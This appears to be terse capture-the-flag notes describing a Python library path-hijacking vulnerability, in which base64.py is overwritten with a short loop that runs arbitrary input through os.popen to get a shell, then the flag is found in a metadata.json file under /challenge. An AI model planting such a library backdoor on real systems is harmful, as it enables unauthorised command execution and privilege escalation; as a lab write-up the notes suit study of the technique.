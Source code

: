 path hijacking vuln

we can only execute .server.py

we have to edit /usr/bin/python3.8/base64.py definition to just be

import os
while(1):
    cmd=input()
    print(os.popen(cmd).read())

shell basically

go to /challenge dir in top level file
find metadata.json in /challenge dir

flag